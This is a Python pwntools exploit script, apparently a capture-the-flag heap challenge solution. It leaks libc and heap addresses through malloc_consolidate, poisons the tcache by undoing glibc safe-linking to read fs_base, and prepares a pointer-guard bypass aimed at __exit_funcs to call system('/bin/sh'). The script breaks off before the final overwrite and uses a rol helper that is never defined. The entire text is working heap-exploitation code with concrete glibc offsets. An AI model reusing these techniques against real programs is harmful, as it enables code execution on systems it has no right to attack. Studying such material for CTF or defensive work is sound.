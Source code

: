 ```python
# Rotate right: 0b1001 --> 0b1100
ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))


# encrypt a function pointer
def encrypt(v, key):
    return p64(rol(v ^ key, 0x11, 64))

io = start()

# get a free chunk in the fastbin
for i in range(0, 8):
    create(i, b"")
for i in range(7, -1, -1):
    delete(i)

# Send large input to scanf (triggers malloc_consolidate())
io.sendlineafter(b"> ", b"1"*0x500)

# this chunk will contain libc address
libc_leak = u64(read(0)[:8])
libc_base = libc_leak - 0x203000 - 0xb50
libc_data = libc_leak - 0xb50
log.success(f"libc @ {hex(libc_base)}")
log.success(f"libc .data @ {hex(libc_data)}")

libc.address = libc_base

# Get heap base
heap_base = u64(read(7)[:8])<<12
log.success(f"heap @ {hex(heap_base)}")

create(8, b"") # parent tcache chunk

# Useful vars
p_fs_base = libc.address + 0x205728
__exit_funcs = libc_data + 0x680
fs_base = 0
stack_base = 0
libc_system = libc.sym["system"]
libc_binsh  = next(libc.search(b"/bin/sh"))

# these will be used later
create(14, b"") # used
create(13, b"") # not used

# Read into anonymous section to get fs_base ptr, will be used later to overwrite key.
create(10, b"")
create(9, b"")
delete(9)
delete(10) # libc chunk
update(9, b"AAAAAAAABBBBBBBB")
delete(9)
chunk_pos = deobfuscate(u64(read(9)[:8]))
update(9, p64(obfuscate(p_fs_base-0x18, chunk_pos)))
create(11, b"")
create(12, b"") # fs_base_ptr should be in this chunk
update(12, b"\x00\x00\x00\x00")
fs_base = u64(read(12)[8:16])
log.success(f"fs_base @ {hex(fs_base)}")

```